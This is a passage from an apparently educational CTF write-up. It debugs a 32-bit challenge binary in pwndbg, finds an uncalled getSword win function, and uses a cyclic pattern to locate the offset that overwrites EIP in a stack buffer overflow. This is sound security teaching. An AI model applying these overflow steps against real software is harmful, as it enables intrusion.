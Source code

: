 ```
0x080492c0  main
0x080492e1  __x86.get_pc_thunk.ax
0x080492e8  _fini
pwndbg> 
```

Interesting, according to the challenge name (get the sword) we see a function ```getSword```, well that is an interesting function. But before we get there, let us disassemble the main function.

```
pwndbg> disass main
Dump of assembler code for function main:
   0x080492c0 <+0>:	push   ebp
   0x080492c1 <+1>:	mov    ebp,esp
   0x080492c3 <+3>:	and    esp,0xfffffff0
   0x080492c6 <+6>:	call   0x80492e1 <__x86.get_pc_thunk.ax>
   0x080492cb <+11>:	add    eax,0x2d29
   0x080492d0 <+16>:	call   0x80491b6 <printSword>
   0x080492d5 <+21>:	call   0x8049256 <intro>
   0x080492da <+26>:	mov    eax,0x0
   0x080492df <+31>:	leave
   0x080492e0 <+32>:	ret
End of assembler dump.
```

Okay so now looking at this we can see that main does not really call the function ```getSword```. So this can confirm that it is a win function. Awesome let us now dig for our buffer which will enable us to overwrite adjacent memory.

Using cyclic to generate a pattern ..

```
pwndbg> cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
pwndbg> r
Starting program: /home/dexter/the-lab/knights/rev/get_sword 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
      />_________________________________
[#####[]_________________________________>
      \>
What do you want ? ?: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
You want, aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa

Program received signal SIGSEGV, Segmentation fault.
0x61616169 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────────────────────────────────────────────────────────────────────
*EAX  0x6f
*EBX  0x61616167 ('gaaa')
*ECX  0xffffcc8c ◂— 0x5d67b300
*EDX  0x1
*EDI  0xf7ffcba0 (_rtld_global_ro) ◂— 0x0
*ESI  0x804bef8 —▸ 0x8049180 ◂— endbr32 
*EBP  0x61616168 ('haaa')
*ESP  0xffffcd10 ◂— 'jaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
*EIP  0x61616169 ('iaaa')
──────────────────────────────────────────────────────────────────────────────────────────────────────[ DISASM / i386 / set emulate on ]──────────────────────────────────────────────────────────────────────────────────────────────────────
Invalid address 0x61616169
```